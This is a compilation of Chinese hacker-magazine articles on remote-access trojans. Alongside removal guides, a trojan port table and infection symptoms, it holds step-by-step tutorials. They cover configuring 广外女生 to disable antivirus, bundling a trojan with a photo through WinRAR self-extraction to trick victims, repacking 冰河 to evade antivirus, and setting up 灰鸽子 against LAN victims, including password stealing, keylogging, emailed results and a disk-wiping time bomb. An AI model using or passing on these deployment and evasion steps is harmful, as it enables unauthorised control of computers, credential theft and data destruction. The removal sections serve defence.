软件特点：广外刚出的时候就以强大的反杀毒能力技惊群雄，它可方便地干掉金山毒霸、天网等国内防护软件。运行后只要广外女生还有花的一天，金山、天网就没有出头的机会。

广外的图标及大小：客户端为 420K，生成服务器为 117K，相对小巧。

配置服务器：其实默认的就可以，安装错误提示添上“此程序不是标准的 WIN32 程序，禁止执行。”用以诱惑人。还可以换服务器的端口，这样即使有经验的人也不容易判断了。最精彩的就是针对防火墙处理，著名的黑洞也有类似功能。配置完后生成即可。

添加被控计算机：先了解对方的 IP 地址，可以通过邮件通知、QQ IP 监视，还有就是通过区域扫描来获取对方 IP 地址。

操作界面：终于可以在“文件共享”下进行远程操作了。虽然简单些，但该有的指令全都有。

密码记录与屏幕控制：密码记录如果用了广外幽灵这个作用就不大了，屏幕控制受网络传输速度的影响。

体积小、隐藏巧妙、反杀毒够狠，是广外流行的几个主要因素。广外上手操作没有任何难度，新手也可轻松完成。

如果你通过“广外女生”的惊艳，这段“爱”的初体验将让你刻骨铭心。

图五 远程操纵监控台

## 广外女生的两种清除方法：

- 1、杀毒软件，一般升级了最新版本病毒库的杀毒软件都可识别出广外女生。
- 2、修改注册表

1）由于该木马程序运行时无法删除该文件，因此要在纯 DOS 模式下，找到 System 目录下的 DIAGCFG.EXE，删除它。

2）由于 DIAGCFG.EXE 文件已经被删除了，因此在 Windows 环境下任何 .exe 文件都将无法运行。我们找到 Windows 目录中的注册表编辑器“Regedit.exe”，将它改名为“Regedit.com”；

3）回到 Windows 模式下，运行 Windows 目录下的 Regedit.com 程序（就是我们刚才改名的文件）；

4）找到 HKEY_CLASSES_ROOT\exefile\shell\open\command，将其默认键值改成“"%1" %*”；

5）找到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices，删除其中名称为“Diagnostic Configuration”的键值；

6）关闭注册表编辑器，回到 Windows 目录，将“Regedit.com”改回“Regedit.exe”。

7）除马结束。

| 端口 | 木马/程序 |
|---|---|
| 21 | Blade Runner, Doly Trojan, Fore, InvisibleFTP, WebEx, WinCrash |
| 23 | Tiny Telnet Server |
| 25 | Antigen, Email Password Sender, Haebu Coceda, Shtrilitz Stealth Terminator, WinPC, WinSpy |
| 31 | Hackers Paradise |
| 456 | Hackers Paradise |
| 555 | Ini-Killer, Phase Zero, Stealth Spy |
| 666 | Satanz Backdoor |
| 1001 | WebEx, Silencer |
| 1011 | Doly Trojan |
| 1170 | Psyber Stream Server, Voice |
| 1234 | Ultors Trojan |
| 1245 | VooDoo Doll |
| 1492 | FTP99CMP |
| 1600 | Shivka-Burka |
| 1807 | Spy Sender |
| 1981 | ShockRave |
| 1999 | Backdoor |
| 2001 | Trojan Cow |
| 2023 | Ripper |
| 2115 | Bugs |
| 2140 | Deep Throat, The Invasor |
| 2801 | Phineas Plucker |
| 3024 | WinCrash |
| 3129 | Master's Paradise |
| 3150 | Deep Throat, The Invasor |
| 3700 | Portal of Doom |
| 4092 | WinCrash |
| 4590 | ICQTrojan |
| 5000 | Sockets de Troie |
| 5001 | Sockets de Troie |
| 5321 | FireHotcker |
| 5400 | Blade Runner |
| 5401 | Blade Runner |
| 5402 | Blade Runner |
| 5569 | Robo-Hack |
| 5742 | WinCrash |
| 6670 | Deep Throat |
| 6671 | Deep Throat |
| 6969 | GateCrasher, Priority |
| 7000 | Remote Grab |
| 7300 | NetMonitor |
| 7301 | NetMonitor |
| 7306 | NetMonitor |
| 7307 | NetMonitor |
| 7308 | NetMonitor |
| 7626 | 冰河 |
| 7789 | ICKiller |
| 9872 | Portal of Doom |
| 9873 | Portal of Doom |
| 9874 | Portal of Doom |
| 9875 | Portal of Doom |
| 9989 | INI-Killer |
| 10067 | Portal of Doom |
| 10167 | Portal of Doom |
| 11000 | Senna Spy |
| 11223 | Progenic Trojan |
| 12223 | Hack'99 KeyLogger |
| 12345 | Gaban Bus, NetBus |
| 12346 | Gaban Bus, NetBus |
| 12361 | Whack-a-mole |
| 12362 | Whack-a-mole |
| 16969 | Priority |
| 20001 | Millenium |
| 20034 | NetBus 2 Pro |
| 21544 | GirlFriend |
| 22222 | Prosiak |
| 23456 | Evil FTP, Ugly FTP |
| 26274 | Delta |
| 31337 | Back Orifice |
| 31338 | Back Orifice, DeepBO |
| 31339 | NetSpy DK |
| 31666 | BOWhack |
| 33333 | Prosiak |
| 34324 | Big Gluck, TN |
| 40412 | The Spy |
| 40421 | Master's Paradise |
| 40422 | Master's Paradise |
| 40423 | Master's Paradise |
| 40426 | Master's Paradise |
| 47262 | Delta |
| 50505 | Sockets de Troie |
| 50766 | Fore |
| 53001 | Remote Windows Shutdown |
| 61466 | Telecommando |
| 65000 | Devil |

# 牧马记

# 永不会被杀的捆绑机

WinRAR

◎文／侠名

捆绑机是玩马者常用的一个软件，用于将木马的服务端和其他文件捆绑在一起，欺骗对方运行。但是有很多捆绑机都会被杀毒软件杀除掉，现在介绍一款永远不会被杀的捆绑机——WinRAR。

WinRAR 是网上常用的一个压缩／解压缩软件。它支持包括 ZIP 在内的多种压缩格式，压缩率高，现在越来越多的人喜欢用 WinRAR 来压缩软件了。

利用它的自解压和文件运行功能可以实现捆绑机的基本要求。首先，我们选定两个文件“server.exe”和“我的照片.jpg”，点击右键，选择“添加到XXXXXX.rar”（XXXXXX为你文件所在的目录）。如图一所示。


现在双击打开生成的这个 RAR 文件，点击工具栏上的“自解压”图标。如图二所示。


在弹出的如图三对话框中点击“高级自解压”选项，弹出如图四所示的对话框。

在“解压路径”中填入你要解压的路径“%systemroot%\temp”，表示系统安装目录下的 temp 文件夹，一般是 C:\WINNT\TEMP 文件夹。然后在“解压缩之后运行”栏中输入木马的服务端“server.exe”，在“解压缩之前运行”框中输入“我的照片.jpg”。此处有一定的欺骗性，生成后的程序运行时会先调用默认关联的图片查看程序来打开“我的照片.jpg”，等关闭这个图片查看程序后才会去运行“server.exe”，这样就起到了迷惑作用。所以顺序一定不能颠倒，否则就露馅了。如图四所示。

现在点击“模式”标签项，选择“全部隐藏”和“覆盖所有文件”这两个选项，这两个选项是为了不让 RAR 解压的时候弹出窗口。如图五所示。

然后点击“文字和图标”标签项，点击“浏览”，在文件夹中选择你喜欢的图标吧！如图六所示。

点击“确定”返回，在同一个目录下就会生成一个与 RAR 同名的 EXE 文件，这个就是“捆绑”后的文件了。你可以给文件更名，比如“我的照片.jpg.exe”。注意，文件后缀名一定要是 EXE。如图七所示。

## 优点

- 1. WinRAR“捆绑”的文件是永远不会被杀的，不用担心哪天杀毒软件会删上你的“捆绑机”。
- 2. 等第一个正常程序运行结束后再运行服务端，具有一定的迷惑性。


图五

图六

## 缺点

- 1. 生成的程序稍嫌偏大，我用 WinRAR 3.0 生成的 EXE 比 RAR 文件大了不少，如果是“捆绑”大文件还可以。
- 2. 操作比较麻烦。

## 后记

- 1. 以上所有操作均在 WinXP + WinRAR 3.0 下测试通过。
- 2. 在“高级自解压”选项中选择打开方式“选择隐藏启动对话框”即可，如果你选择“全部隐藏”，这样就会看不到图片了（XP 中如此）。

## 防范方法

对于自解压文件，我通常选用的方法是右键选取，然后选择菜单中的“解压缩到***文件夹”，这样不管自解压文件中是否捆绑了木马都不会中！而且在释放后的文件夹中可以清晰地看到被捆绑的木马服务端。


图七

# 端口概述

房屋要有门你才可以进出，TCP/IP 协议规定，电脑可以有 256 乘以 256 扇门，即从 0 到 65535 号“门”，TCP/IP 协议把它叫作“端口”。在上网过程中要下载软件、发送信件、网上聊天等，必然会打开一些端口，下面是一些常用的端口：

- （1）1—1024 之间的端口：这些端口叫保留端口，是专给一些对外通讯的程序用的，如 FTP 使用 21，SMTP 使用 25，POP3 使用 110 等。只有很少木马会用保留端口作为木马端口的。
- （2）1025 以上的连续端口：在上网浏览网站时，浏览器会打开多个连续的端口下载文字、图片到本地硬盘上，这些端口都是 1025 以上的连续端口。
- （3）4000 端口：这是 OICQ 的通讯端口，如果测对方 QQ 不为 4000 则为代理服务器，如为 4001、4002、4003，则表示对方可能同时开有 2—3 个 QQ。
- （4）6667 端口：这是 IRC 的通讯端口。除上述的端口基本可以排除在外，且发现还有其他端口打开，尤其是数值比较大的端口，那就要怀疑是否感染了木马。当然如果木马有定制端口的功能，那任何端口都有可能是木马端口。

# 教马记


你是否喜欢玩木马，是否为木马的服务端经常被杀毒软件查杀而感到苦恼，是否和我一样也是“无产阶级”，来吧，自己动手，丰衣足食。我现在用冰河 2.2 来做例子：

- 1. 冰河 2.2（原版），这个不要说你不知道，这个版本服务端肯定被杀毒软件查杀，图一；
- 2. 首先我们要将客户端脱壳，我用的工具是 UPX-GUI 1.08w 汉化版，图二；
- 3. 脱壳完毕，我们再来看客户端，变成 677K 了，图三；
- 4. 接着，我们帮它重新加壳，我用的工具是 ASPack 2.12 汉化版，图四；
- 5. 这时我们再用杀毒软件测试一下，嘿嘿！图五。

看到这里吧！我测试过，用这个方法对付瑞X杀毒和金X毒霸特别有效。其实我这篇东西没什么技术可言，只是提供大家一个思路。有一定基础的网友还可以用 eXeScope、UltraEdit、WinHex 等工具修改木马的资源，实现真正的“个性化”！以上的方法其实还可以用其他的加壳和脱壳工具，不一定要“照抄”，例如出了一个新木马，你只需找软件脱壳（按推定是知道它加了什么壳，如果你不是太会，可以用常用的脱壳软件都试一试），然后你尽量用某加壳软件的最新版本进行加壳，再用杀毒软件测试。这样，你的木马将永远走在某些杀毒软件的前面！

本文所有工具均可在汉化新世纪 http://www.hanzify.org/ 找到，也可到《黑客X档案》的“杂志相关”栏目中找到。

其实我也很菜，希望可以和大家一起交流体会。上文有什么不对之处敬请指教！因使用以上方法所带来的后果由你自己负责！


# 手动查杀木马——蓝色火焰一击

木马“蓝色火焰”已经出现有一段时间了，想必也有不少人领教过其威力了——果然厉害！

我用自己的机器做过了实验，每次自己种植完木马后都是用一些专杀工具将其杀掉，所以始终不能明白其工作原理！

由于该木马会在种植之后每次都随机启动，所以它必定会把自己的程序复制到某个位置，之后又会把自己加到启动项目。一般木马都会把自己的程序复制到系统盘里，并且命名的方式会和一些系统名非常相似，所以要特别注意。

因此在种植木马 server 端前先在“运行”里输入“msconfig”进入“系统配置实用程序”查看“启动项”都有什么。因为 Windows 2000 中没有此程序，所以可进注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 这个位置下进行查看，即使在 Win98 中也最好在此查看，因为这样会更细一些！记好这些启动项，然后开始植入木马，这时在“运行”对话框里输入“telnet 127.0.0.1 19191”后会出现 Telnet 的窗口，窗口中会提示你输入 bluefire 的密码（你自己设置的），输入密码后就可以开始控制了。接下来我们就要铲除掉这个家伙了！

先重启计算机，然后再进入“系统配置实用程序”或上述提到的注册表的位置查看，会发现多了一个名为 Network Services 的启动项，其程序指向位置为 C:\WINDOWS\SYSTEM\lasksvc.exe。

好，我们找到这个程序，删除它，呵呵……怎么样？删不掉吧！系统会提示它正在被使用！没关系，用“删除擦眼”这个软件来终止它。如果用的是 Win2K 的话，直接到任务管理器的进程里找到它并终止就可以了！然后删除它。

这时候再 Telnet 本地机一下会发现连不上了，不过不要高兴，这没完呢！从软件介绍中得知“蓝色火焰”是一款关联木马，它关联了 txt 为后缀的文件。那么，来验证一下吧！随便打开一个 txt 文件，然后怎么样？在“运行”里键入“telnet 127.0.0.1 19191”发现又连接上了。怎么样？厉害吧！

既然如此，我们就要找到和 txt 关联的文件。进入注册表编辑器，进入到以下位置：HKEY_CLASSES_ROOT\txtfile\shell\open\command，你会在右面窗口中发现默认值内填写的并不是我们熟悉的 notepad.exe，而是“D:\WINDOWS\SYSTEM\sysexpl.exe "%1"”。不用多废话了，把它改回到原来的“D:\WINDOWS\notepad.exe "%1"”。

接下来就要处理这个关联的程序 sysexpl.exe，当然是毫不犹豫地删掉它了！

然后再来 Telnet 一下，这时候会出现对话框提示你无法连接 127.0.0.1。

到此木马就搞定了！再说几句，这个东西还真够狡猾，装了“超级解霸”的人细心点会发现，其实“超级解霸”的“自动播放伺服器”的随机启动程序名为 sysexplr.exe。就差一个字母啊！大家也赶快动手来试试，自己动手清除木马的感觉可是非常有成就感的哦！


# 二、养马记

星期六一大早起来闲着没事便逛上网，想找点稀奇的东西玩玩，东游西荡之后发现一款当前极红火的网络游戏外挂，便想分析一下。该外挂的文件名为“经验.EXE”，下载完毕后简单察看了一下，这个文件大小为 619KB；文件图标为 WPE 生成的可执行文件。迫不及待地想看看该文件执行的结果，鼠标变成了沙漏状，但怎么没有打开任何窗口？立即查看该文件属性，发现只有常规页面而没有版权页面。反编译该文件发现该文件被 ASPack 加了“壳”，第六感告诉我该文件被人动了手脚。慢慢回想，相传该网络游戏的很多外挂都被植入了木马，难道这个也是？（一阵凉气从后脊梁骨升起）不行，我可不想成为别人的目标，一定要把这该死的木马找出来。

哈哈……露出马脚了！这肯定不是我自己运行的程序，也绝不是系统文件，看来这个就是那匹小马了。查找该文件发现它在 C:\WINDOWS\SYSTEM 目录下。还是老一套，一点新意也没有。想把自己当成系统文件，这可骗不了我！

# 三、找马记

# 三、剿马记

“找啊……找啊……找木马，找到一个大木马”，嘴里哼着自己填词的儿歌就踏上了找木马的路。首先我使用网络木偶山庄的“个人电脑安全伴侣 1.01”查看机器有没有打开什么异常端口，从检查的结果看好像没有开什么端口（如图一），难道是我判断错误？


真是这样吗？看看正在运行的进程再说（如图二）。果然发现一个可疑的进程，仔细查看这个进程使用的模块居然还用到 VB 的动态库文件。想想我除了运行“个人电脑安全伴侣”以外就没有运行别的程序啊？

既然找到了就要看看，不然浪费了可惜。先把这些小马牵出来遛遛。

首先将进程中可疑的进程结束，将 C:\WINDOWS\SYSTEM\TASKMON.EXE 剪切到 C:\ 根目录下（相当于删除了该文件），然后随便运行一个 EXE 文件（因为好多木马都会作第二手准备，就是在木马文件被删除后它还会重新生成一个和以前一模一样的木马文件，从而保证自己不会被轻易删除）。再看看 C:\WINDOWS\SYSTEM 有没有 TASKMON.EXE。果然又有了一个 TASKMON.EXE 文件，看来这匹小木马还不是单兵作战，它肯定还有一个帮凶。哼哼……现在就来找找谁在帮它。打开注册表编辑器（REGEDIT.EXE）找到 EXE 关联的地方：“HKEY_CLASSES_ROOT\exefile\shell\open\command”，看到右边窗口中有如下的字符串：“（默认） C:\WINDOWS\SYSTEM\TASKSET.EXE %1 %*”。找到了，帮凶就是它。原来它们都在同一个目录。什么？你说我为什么说这个文件是木马吗？因为 EXE 文件的关联不是这样的，应该是“（默认） "%1" %*”。还有这两个文件其实是一样的，不信你去看看这两个文件的大小和时间是不是一样。既然找到了帮凶，我们就来看看这个帮凶在什么地方帮助这匹可怜的小马了。

在注册表编辑器里面选择“编辑→查找”，然后在对话框里面输入 TASKSET.EXE，再点击“查找下一个”开始查找。第一个查找到的是 CHM 文件的关联，这时候按 F3 继续查找，第二个是 EXE 文件的关联，第三个是 TXT 文件的关联。把这些关联中的 C:\WINDOWS\SYSTEM\TASKSET.EXE 的路径都删掉，路径“/”以后的东西可千万不要删哦！要不然你就不能正常打开“它们”了。

关联文件找到了还不算完，因为它还会再次启动。在注册表里的 Run 项目，再查启动项（具体的路径我就不写了），看到一个键名为 TaskMonitor、键值为 C:\WINDOWS\SYSTEM\TASKMON.EXE 的键，把这些都删除。在找键名的时候发现一个主键很奇怪，在“HKEY_LOCAL_MACHINE\Software\Microsoft\winch”下面，并且里面的键名是 MIMA_WENJIAN（拼音？？密码文件？？），键值是 C:\gamelog.txt。看了一下，哦！明白了，这是一个盗窃密码的木马，盗窃的密码就存放在 C:\gamelog.txt 文件中（原来是“密”字）。我删！……一顿狂删之后，所有找到的木马文件及注册表里的木马键值都不复存在，这个世界清净了！

重新启动机器看看还有没有木马，啊……难道有鬼？木马文件又全都回来了。不对，还是不是 AUTOEXEC.BAT、CONFIG.SYS、WINSTART.BAT、WIN.INI、SYSTEM.INI 这几个启动程序文件里有鬼呢？逐一检查这几个文件，发现在 WIN.INI 的 [WINDOWS] 段有这样一条“run=C:\WINDOWS\MSTASKS.EXE”命令（又一个邪凶！乖乖，打入海底啊！）。删除它之后，再重新开始把木马文件及注册表里的木马键值全部删掉。

重启计算机，再检查一遍，啊……这个世界总算清静了！

# 四、总结

- 1. 从网上下载的不明文件不要轻易执行，除非你非常有把握。
- 2. 当怀疑机器有木马时，就要注意系统打开的端口和正在运行的进程。当然平时你就要多注意端口和进程，否则到时候你都分不清哪些是正常的端口和进程，哪些是可疑的端口和进程。
- 3. 发现木马后注意先查它的关联文件，否则你所做的一切都是白搭（当然重新安装系统除外）。
- 4. 删除木马时注意查找启动程序的几个文件里面有没有木马的踪迹。

以上就是我的一次实战木马的全过程，写出来希望能给大家防治木马起到一定的参考作用。木马的关联检测在上面介绍的工具里面也有（如图三），但只能检测 TXT 和 EXE 的关联。现在出现了可以关联 INF 和 CHM 等文件的木马，所以把有关手工检测关联的小技巧也写出来了。


写完这篇文章后我详细查看了这个木马，果然是个盗取密码并能发送到指定邮箱的木马，并发现里面有这样一个网址 http://xinxinyi.yeah.net。我想这个可能是木马作者的网址，大家如果有条件可以对照这篇文章实际地分析一下这个木马。动动手会加深印象的哦！

## 木马愚鲁证

这里说的木马是一种程序，它在玩具市场上没有卖的，也不是拿来骑的。

木马能够悄悄潜伏在我们的电脑中，并且隐藏在后台执行未经用户许可的任务。感染木马后，你的电脑就可以由第三方来远程控制了。这里我们给大家谈谈电脑中木马后的一些表现，这里分为两种情况来描述：一种是中木马后的若干症状，另一种是可能中木马后的症状。

首先我们来谈谈中木马后的若干症状。

# 表明感染了木马的症状

如果你遇到过下列症状之一，说明你已经被控制者控制了。这些非盗窃类型的控制者在玩游戏累了的时候就会破坏别人电脑的数据，甚至毁掉别人的电脑。

- 1．光驱托盘自动开关。许多木马可以开关光驱托盘，具有这个命令的两个最出名的木马是 NetBus 和 SubSeven。
- 2．电脑屏幕显示内容颠倒。如果你感染了木马，控制者可以让你的屏幕闪烁，让所有的东西都倒过来显示。
- 3．墙纸或背景设置自行改变。一些控制者也许会改变墙纸或背景的默认设置，通常替用你电脑上的图片，或者控制者上传的图片。
- 4．打印机自行打印字符串信息。由于控制者完全控制了电脑，他可以访问打印机，并且给你打印他个人信息，或者打印在你的文件夹中发现的文档。
- 5．电脑浏览器自行访问一个陌生的或未预的网页。木马让控制者能够打开 Web 浏览器，并且可以去任何他们预先选的网页。
- 6．Windows 颜色设置自行改变。如果你感染了木马，控制者会随意改变你的颜色设置。
- 7．屏幕保护设置自行改变。通常情况下，一些控制者会把你屏幕保护程序改成一个滚动信息，内容是告诉你他来过了。
- 8．鼠标的左右按钮功能颠倒。通常控制者都是让你的鼠标的左右按钮功能颠倒，右边按钮干左边通常干的事，而左边的按钮起右边按钮的作用。
- 9．鼠标光标消失。有时控制者会完全关闭你的鼠标，这时你的鼠标光标就消失了。
- 10．鼠标自行移动。控制者可以在屏幕上移动你的鼠标光标，点击图标、启动程序，就好像他们坐在你电脑前的椅子上一样。
- 11．鼠标开始移动方式不正常。控制者可以更改鼠标设置，使得你在移动鼠标时，感觉它不按正常轨迹移动。
- 12．电脑播放你的电脑所在房间的录音。如果你的电脑上连有麦克风，控制者可以录音并且收听你屋里的声音。有些控制者会在他知道你在房间的时候播放这些录音。

## 黑客X档案2002-2003年合订本

# 牧马记

- 13．音量自行改变

有时候控制者会把声音调大或者调小以引起你的注意。

- 14．Windows 开始按钮消失

感染了木马后，控制者可以将开始按钮藏起来让你看不见。

- 15．程序自行加载或卸载

控制者可以打开或关闭你电脑上的程序。很多时候你的防病毒软件被关闭了，之后你就会发现部分内容被改变甚至删除了。

- 16．你的电脑开始和你交谈

有些木马允许控制者在一个对话框中输入任何想说的话，显示在你的电脑上时（“冰河”可以通过它的“冰河信使”像 QQ 聊天一样，在被入侵的电脑上弹出聊天信息），就如同你的电脑在和你谈话。

很多时候控制者能配合 WEB 摄像头和声音选项，这样控制者在和你交谈之前可以听到并看到你。

- 17．你的电脑开始读剪贴板的内容

控制者可以让电脑朗读剪贴板的内容，并且可以在 Windows 的剪贴板中增加内容。

- 18．奇怪的聊天对话框出现在屏幕上，你被迫和陌生人说话

木马允许控制者在你的电脑上打开一个黑色方形聊天对话框，这时你什么也干不成，只能往对话框中敲入文字。控制者也许会和你说话，也许只是不让你做任何事情，而他在看你都在干什么。

- 19．奇怪的 Windows 警告、消息、错误或问题对话框显示在屏幕上

你的电脑生成奇怪的警告或问题对话框，多数时候都是与你直接相关的个人问题，配合“YES”“NO”或“确定”按钮供你点击。

- 20．你收到你的 ISP 警告说你正在 IP 扫描

控制者可以利用你的电脑去攻击、发邮件或者扫描其他受感染的电脑。你甚至可能收到来自你的 Internet 服务提供商发来的电子邮件，警告说如果你还这样做的话你的账户就会停止。此时你已经变成了一个任控制者宰割的肉鸡了。

- 21．和你聊天的人对你和你的电脑了解太多

控制者可以通过阅读你电脑上的简历、财务记录和私人信件等来了解你的个人情况。他在和你聊天时可能告诉你，他知道你的地址、电话号码、孩子的名字或其他一些信息。他这样做或者是想引起你的重视，或者是想吓唬你。一些控制者很可能在和你逗趣之后搞点破坏。

- 22．其他人可以读你的 IRC 或 QQ 消息

感染了木马后，控制者不仅可以看到你输入的所有文字，而且还可以通过 QQ、ICQ、IRC、AIM 等网络寻呼机发给你消息。你用上述某个聊天软件聊天时，有人对你和他人的聊天内容很了解的话，你可能已经被感染了。

- 23．和你聊天的人可以看见你或者知道你的电脑所在房间的情况

如果你有摄像头，控制者可以在你不知道的情况下打开摄像头，这样就可以看到你以及房间里的情况。

- 24．电脑上的时间和日期自行改变

控制者可以改变你的电脑的时间和日期。通常这么做都是为了引起你的注意，而且改得很离谱。接下来控制者很可能会问你的电脑上的时间和日期是什么。

- 25．电脑扬声器自行开始和停止工作

控制者可以打开和关闭你的电脑扬声器。

# 三、可能是感染了木马后的症状

有经验的控制者的总的原则是尽量保持隐蔽，不让入侵你的电脑这一行为露出一丝马脚。有经验的控制者试图一切秘密进行，这样就可以持续访问，并且让信息流不断。如果你注意到下列一些症状，你可能感染了木马，而且他可能是一个有经验的控制者。

- 1．你的账号密码被改或者别人可以进入你的账号

有时候你的账号提示的上次使用时间与你上次的使用时间不相符合，或者干脆不允许你使用，因为有人未经你允许正在使用。ICQ、AIM 等也被别人接管了，你再也无法使用了。

- 2．在你的信用卡记录中有你从未进行过的奇怪的采购记录

当你在计算机上使用信用卡或者在键盘上敲信用卡账号密码时，控制者会让电脑将这些信息存到一个文件中。控制者使用信用卡通常都是进行和电脑相关的消费，如各种服务和程序，而你却根本不知道。

- 3．你的电脑显示器自行开关

在控制者想运行某个程序而又不想让你看见时，就会关闭你的显示器，运行之后再打开。

- 4．你的猫自行拨号并且连到 Internet

当控制者知道你不在家或者睡觉时，会趁机将你的猫拨到 Internet 上。

- 5．你没有使用电脑时，你的猫和硬盘灯闪烁

你没有使用电脑时，控制者可能正在运行你电脑上的程序或者在你电脑上上网，所以引起这些症状。

- 6．你的电脑自行重新启动

有时候控制者会在你的电脑上安装程序，需要重新启动以完成整个安装过程，这时他就会重新启动你的电脑。

- 7．在没有访问时，你的文件正在被使用

当你使用文件时，该文件的图标变得透明，表示现在不能运行该文件。当控制者正在访问某个文件时，它也会变得透明；另一个提示是你正在看的文件夹中会出现某个文档的临时文件。控制者访问完这些文件后，临时文件消失，有时候会使 Windows 资源管理器在刷新文件夹时闪动一下。

- 8．你的键盘或鼠标不工作了

如果控制者觉得你要阻止他了，比如运行防控制者软件或者进入他正在访问的文件夹，他会锁死你的键盘或鼠标。

- 9．Ctrl + Alt + Del 不好用了

控制者或木马会让该功能无效，这样你就不能查看任务栏或者终止一个程序或进程。

- 10．你重新启动电脑时提示你有用户仍然连接着你的电脑

当你重新启动电脑，系统提示你有用户仍然连接着你的电脑时，表明你有共享文件，别人正在访问，你需要给驱动器或共享文件加密码，或者停止文件共享。

- 26．电脑自行关机

感染了木马后，控制者可以关闭你的电脑。

- 27．任务栏消失

控制者可以隐藏任务栏让你看不见。

# 飞越局域网的木马——灰鸽子

小鱼儿

“灰鸽子”的出现对于想访问局域网内部主机的朋友来说无疑是一个好消息，原来我们访问局域网内主机上文件的时候一般只能用网络神偷，但网络神偷的功能比较单一，除了文件管理以外其他很多控制功能都不具备，比如：查看进程、控制屏幕、对被控电脑进行关机、重启、锁键盘、偷看 QQ 和上网帐号密码等等。但“灰鸽子”的出现终于让这些想法变为了现实。

“灰鸽子”的界面看起来和同样著名的老牌木马“冰河”极其类似，功能大致也差不多，但它的反弹端口技术以及采用了新式的 IP 定位技术却使其价值倍增！这里我主要给大家介绍它在控制局域网内部主机上的应用及操作。当然，最后我们还要教你如何删除它。

## 一、灰鸽子在局域网的工作原理

所谓“反弹端口”就是让服务端主动去找客户端来连接，这样就突破了局域网可以连出去但不能连进来的传统规则。而服务端在茫茫的网络中找到客户端的方法就是通过客户端的 IP 来定位的，也就是说只要能够让服务端读取到客户端的 IP 就成了。

“网络神偷”为了实现读取客户端的 IP 采用的是利用主页空间的办法，即每次打开客户端的时候，都给指定的 IP 传送到主页空间来供服务端读取。而灰鸽子在这种方式上作出了大刀阔斧的改进，它不再是利用传统的主页空间的方式来读取客户端 IP，而是利用了免费的二级域名，让这个域名指向自己客户端的 IP 地址，而“灰鸽子”的服务端只需要去读取一个固定的免费域名就可以轻松找到客户端地址了。当客户端的 IP 地址发生变化时，只需要在客户端点一下“更新 IP 地址”，就可以把自己现在的 IP 地址传递给在远方辛苦“埋伏”的服务端了。

## 二、灰鸽子服务端的正确配置

由于灰鸽子提供了配置向导，所以整个配置过程基本上就是不断点击“下一步”，其他只需在部分选项上打勾的问题了，下面我来给大家详细地介绍一下。

- 1．注册域名

打开客户端 p_client.exe，点击“自动搜索”，出现如图 1 所示界面，在“域名”中填入你要注册的域名名称，随便填，只要是没被注册过的就行，这里用长点的数字，这样不容易重复；输入两次密码，注意要 6 位数以上，两次密码要一致；信箱也要填，用来以后忘记密码时用。你也可以直接在网上注册域名，Web 注册地址“灰鸽子”缺省指定为 http://my.126.com。如果一切输入正确，点“注册域名”后就会提示你注册成功。


- 2．更新 IP 地址

第二步是非常重要的，把你刚才注册好的域名填入如图 2 所示的界面中，在“自动保存信息”前面打上勾，然后点“更新 IP 地址”，右边提示成功后就完成这一步了。如果要更改为其他网站域名的话，需要手工另行配置，这里不再具体讲解。


- 3．配置本地服务端

### a．基本设置 1

点击“文件”->“配置服务器程序”就开始配置了，把“打开端口”前面的勾去掉，因为我们的对象是局域网主机，不需要开端口（多隐藏啊，嘿嘿）。再把“自动上线”打上勾，填上你注册的域名，比如：http://245830.126.com。再输入一个连接密码，这样别人就不能控制你的肉鸡了。

### b．基本设置 2

如果要探测 QQ 密码就在第二项前面打上勾。

### c．设定提示信息

“错误对话框”就是当别人打开你的服务端时出现的错误提示，可以用来迷惑对方，但有时也会弄巧成拙，自己视具体情况决定吧。

### d．开机自动加载方式

我建议把三个全部打勾，这样别人就很难清除你的服务端了，除 exe 关联外的文件关联还有三种，任选一种即可，推荐 .ini。

### e．邮件通知设置

这一步设置不好可就收不到信了，正确配置如图 3 所示。注意 SMTP 服务器的后缀（如 163.com）要和下面所填的信箱后缀一致！用户名和密码一定要填，否则也是收不到信的。在下一步中的捆绑文件下面有说明，我就不说了。


### f．定时炸弹和代理服务器

这个定时炸弹功能不知道“害死”过多少人，特别是初学木马的菜鸟，栽都不知道栽哪儿了，然后误运行了服务端 Server.exe，当某一天开机时发现自己硬盘上的东西都没了，多年的收藏啊，欲哭无泪！“害人之心不可有，提防之心不可无”啊。初学的朋友一定要小心了。

“IE 代理”就是在肉机上开启 HTTP 代理服务，如果是国外的肉鸡，你就可以通过它访问一些国内受限制的网站。最后选择“浏览服务端”，这样一来就全部配置好了，大功告成！

## 三、玩灰鸽子的人入侵后的操作

我随手找来一台局域网的肉鸡，给它装上了灰鸽子的服务端，等待了漫长的 4 分钟后（作者说只需要 1 分钟，我不敢苟同，也许是网速不一样吧！），我的文件管理器中终于出现了一台绿色的电脑图标，双击该电脑的图标，浏览器快速地出现了目标的硬盘，接着展开一个文件夹，如图 4 所示，展开的速度非常快，几乎和控制非“反弹端口”式的木马差不多。这点给了我很大的惊喜，因为同为反弹端口技术的“网络神偷”展开文件夹时可要慢慢读进度的。


图 4

### 1．文件管理器

我选取一个文件，点击右键，该文件立刻出现了一列详细的操作菜单，可以复制、删除、下载和运行。运行也有多种选择，但可惜的是不能像 Netbull（网络公牛）一样修改文件属性，但相对来说它已经做得不错了，如图 5 所示。


图 5

### 2．命令控制台

灰鸽子的精华可全在“命令控制台”。我相信“口令类命令”是所有人的最爱，在“系统信息与口令”中可以查看详细的系统信息，如图 6 所示。这台肉机当前的系统就是 Win NT，处理器是奔腾 865MHz，内存是 256M 的，硬盘的使用和分配也详细可见。想要知道对方的一些密码就点击“缓存口令”和“历史口令”，一般来说，“历史口令”中的“密码资源”可是很丰富的哟！“击键记录”可以实时地记录肉机当前使用者的键盘操作情况。


图 6

“文件类命令”中有“文件管理器”中所没有的一个功能，那就是“文件压缩”。如果你要下载对方一个较大的文件，就可以用这个功能先远程压缩一下，再下载就会轻松多了。

“无归类命令”中都是一些恶作剧类的命令，如让对方电脑黑屏、隐藏桌面、开关光驱，甚至还有恶毒的远程格式化目标硬盘的命令。

> 小技巧  
> 如果在一个分区里都有一个程序（比如游戏程序），因为有程序运行的话别人就没法格式化你的硬盘了。比如说，你可以把该分区装在 D 盘，杀毒软件装在 E 盘，QQ 开在 F 盘。

“NT 系列命令”只有在对方的机器是 NT 系统的时候才可以使用，可以获得对方的管理员“Administrator”权限，然后在 MS-DOS 控制台下进行更多的操作。“服务信息”功能更是直观而有用，如图 7 所示。


图 7

### 3．MS-DOS 控制台

